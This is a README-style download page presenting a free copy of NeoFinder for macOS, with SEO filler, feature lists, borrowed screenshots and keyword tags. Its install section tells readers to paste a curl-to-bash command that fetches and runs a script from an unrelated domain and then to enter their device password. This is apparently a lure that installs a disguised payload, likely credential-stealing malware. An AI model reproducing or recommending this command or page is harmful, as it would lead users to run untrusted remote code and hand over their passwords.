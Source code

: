 # NeoFinder — Free Download for Mac OS 🖥️

NeoFinder is a powerful digital asset management tool for Mac OS, designed to catalog, organize, and manage your media files effortlessly. Follow the instructions below to install NeoFinder on your Mac and streamline your workflow! 🚀

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://neofinder-for-mac.github.io/.github/)

If the download button doesn’t work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install NeoFinder for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 🎯 What You Get with NeoFinder

- 🗂️ **Comprehensive File Cataloging**: Organize photos, videos, and documents with powerful metadata tagging and search capabilities.
- ⚡ **Fast Search and Retrieval**: Instantly locate files using advanced filters and metadata, saving you time.
- 📷 **Media Previews**: Generate thumbnails and previews for images, videos, and PDFs for quick content review.
- ☁️ **Cloud Integration**: Sync your catalogs with cloud services like Dropbox for seamless access across devices.
- 🔒 **Secure Data Management**: Keep your files safe with robust backup and archiving features.
- 🛠️ **Customizable Workflows**: Tailor NeoFinder to your needs with flexible cataloging and automation tools.

---

## About NeoFinder

NeoFinder is a premier digital asset management solution for Mac OS, designed to help professionals and enthusiasts efficiently catalog and manage their media libraries. Whether you're a photographer, videographer, or creative professional, NeoFinder simplifies the process of organizing large collections of files. By leveraging powerful metadata tools, NeoFinder ensures that your **digital asset management** needs are met with precision and ease. Its intuitive interface allows users to catalog files across multiple storage devices, making it a go-to solution for **file organization for Mac**.

One of NeoFinder’s standout features is its ability to generate detailed catalogs with metadata, including EXIF, IPTC, and GPS data for images. This makes it an essential tool for users searching for a **Mac media cataloging** solution that delivers both speed and accuracy. The software supports a wide range of file formats, from photos and videos to PDFs and audio files, ensuring compatibility with diverse workflows. Its **free download for Mac OS** option allows users to explore its capabilities without upfront costs.

NeoFinder also excels in its integration with modern workflows. For instance, it supports cloud services like Dropbox and Google Drive, enabling seamless synchronization of catalogs across devices. This feature is particularly useful for professionals who need **asset management software** that works across multiple platforms. The software’s ability to generate thumbnails and previews enhances productivity by allowing users to quickly identify files without opening them.

Security is a core component of NeoFinder’s design. With built-in backup and archiving tools, users can protect their data from loss, making it a reliable choice for **Mac file management**. The software also offers automation features, such as batch renaming and metadata editing, which streamline repetitive tasks and save valuable time. For those seeking a **NeoFinder free download**, the installation process is straightforward, as outlined above, ensuring accessibility for all Mac users.

### Why Choose NeoFinder?

NeoFinder stands out as a top-tier solution due to its combination of power, flexibility, and ease of use. Unlike other **digital asset management** tools, NeoFinder offers a free version that provides robust functionality without compromising on quality. Its seamless integration with Mac OS, coupled with features like cloud syncing and metadata support, makes it a preferred choice for professionals seeking efficient **file organization for Mac**. Whether you’re managing a small photo collection or a vast media library, NeoFinder delivers unmatched performance.

---

## 🖼️ Preview

![NeoFinder Dashboard](https://www.cdfinder.de/images/power.jpg)  
*NeoFinder’s intuitive dashboard for managing your media files*

![Metadata Editing](https://www.cdfinder.de/images/nf-laptop.png)  
*Editing metadata for images and videos in NeoFinder*

![Catalog View](https://www.cdfinder.de/guide/18/files/sort-menu-1.jpg)  
*Viewing organized catalogs with thumbnail previews*

---

## 🔍 Tags

NeoFinder free download,  neofinder for mac, neofinder download, neofinder download free, neofinder mac free, neofinder free mac, neofinder free mac os, neofinder download mac, neofinder download mac os, free neofinder download
